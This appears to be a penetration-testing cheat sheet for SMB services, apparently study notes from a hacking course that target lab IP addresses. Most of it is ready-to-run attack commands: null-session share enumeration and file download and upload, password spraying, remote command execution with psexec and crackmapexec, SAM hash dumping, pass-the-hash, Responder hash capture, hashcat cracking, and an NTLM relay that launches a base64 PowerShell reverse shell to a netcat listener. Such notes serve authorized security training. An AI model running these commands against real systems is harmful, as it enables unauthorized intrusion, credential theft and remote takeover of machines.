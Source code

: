 # Enumeration
```shell
sudo nmap 10.129.14.128 -sV -sC -p139,445
```
# Misconfigurations
- SMB can be configured not to require authentication, which is often called a `null session`. Instead, we can log in to a system with no username or password.
# Anonymous Authentication
- Most tools that interact with SMB allow null session connectivity, including `smbclient`, `smbmap`, `rpcclient`, or `enum4linux`.
## File Share
```shell
smbclient -N -L //10.129.14.128
```
## SMBmap
```shell
smbmap -H 10.129.14.128
```

Using `smbmap` with the `-r` or `-R` (recursive) option, one can browse the directories:
```shell
smbmap -H 10.129.14.128 -r notes
```

```shell
smbmap -H 10.129.14.128 --download "notes\note.txt"
```

```shell
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```
## Remote Procedure Call (RPC)
```shell
rpcclient -U'%' 10.10.110.17
```
```rpc
enumdomusers
```
## Enum4linux
- Workgroup/Domain name
- Users information
- Operating system information
- Groups information
- Shares Folders
- Password policy information
```shell
./enum4linux-ng.py 10.10.11.45 -A -C
```
# Protocol Specifics Attacks
- If a null session is not enabled, we will need credentials to interact with the SMB protocol. 
- Two common ways to obtain credentials are [brute forcing](https://en.wikipedia.org/wiki/Brute-force_attack) and [password spraying](https://owasp.org/www-community/attacks/Password_Spraying_Attack).
## Brute Forcing and Password Spray
### CrackMapExec
```shell
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```
# SMB
- When attacking a Windows SMB Server, our actions will be limited by the privileges we had on the user we manage to compromise. 
- If this user is an Administrator or has specific privileges, we will be able to perform operations such as:
	- Remote Command Execution
	- Extract Hashes from SAM Database
	- Enumerating Logged-on Users
	- Pass-the-Hash (PTH)
## Remote Code Execution (RCE)
### Impacket PsExec
```shell
impacket-psexec administrator:'Password123!'@10.10.110.17
```
### CrackMapExec
```shell
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```
#### Enumerating Logged-on Users
```shell
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```
#### Extract Hashes from SAM Database
```shell
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```
#### Pass-the-Hash (PtH)
```shell
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```
## Forced Authentication Attacks
- We can also abuse the SMB protocol by creating a fake SMB Server to capture users' [NetNTLM v1/v2 hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4).
### Responder
```shell
responder -I <interface name>
```
```shell
sudo responder -I ens33
```
The captured credentials can be cracked using [hashcat](https://hashcat.net/hashcat/) or relayed to a remote host to complete the authentication and impersonate the user.
#### Hashcat
```shell
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```
If we cannot crack the hash, we can potentially relay the captured hash to another machine using [impacket-ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) or Responder [MultiRelay.py](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py)
#### Responder.conf
```shell-session
cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```
#### impacket-ntlmrelayx
```shell
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```
We can create a PowerShell reverse shell using [https://www.revshells.com/](https://www.revshells.com/), set our machine IP address, port, and the option Powershell #3 (Base64).
```shell
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <hash>'
```
#### Netcat
```shell
nc -lvnp 9001
```
## RPC
- We can use RPC to make changes to the system, such as:
	- Change a user's password.
	- Create a new domain user.
	- Create a new shared folder.
We can use the [rpclient man page](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) or [SMB Access from Linux Cheat Sheet](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf) from the SANS Institute to explore this further.